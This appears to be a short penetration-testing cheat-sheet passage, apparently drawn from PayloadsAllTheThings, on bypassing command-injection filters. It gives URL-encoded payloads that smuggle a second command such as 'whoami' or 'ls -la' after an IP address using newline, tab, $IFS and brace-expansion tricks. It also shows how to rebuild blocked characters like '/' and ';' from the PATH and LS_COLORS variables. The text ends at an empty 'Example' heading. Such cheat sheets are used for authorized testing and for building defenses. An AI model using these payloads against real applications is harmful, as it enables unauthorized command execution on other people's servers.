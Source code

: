 Always test the operator without any payload to check the application security’s behavior 

## Bypass Space Filters

```php
127.0.0.1%0a+whoami
```

### **Using Tabs**

```php
127.0.0.1%0a%09whoami
```

### **Using $IFS**

```php
127.0.0.1%0a${IFS}
```

### **Using Brace Expansion**

```php
127.0.0.1%0a{ls,-la}
```

[PayloadsAllTheThings/Command Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

## **Bypassing Other Blacklisted Characters**

### **Linux**
##### **PATH**

```php
${PATH:0:1}

/
```

We can do the same with the `$HOME` or `$PWD` environment variables as well. 
##### **LS_COLORS**

```
echo ${LS_COLORS:10:1}  

;
```

**print all environmental variables**

```php
printenv
```

**Example:**

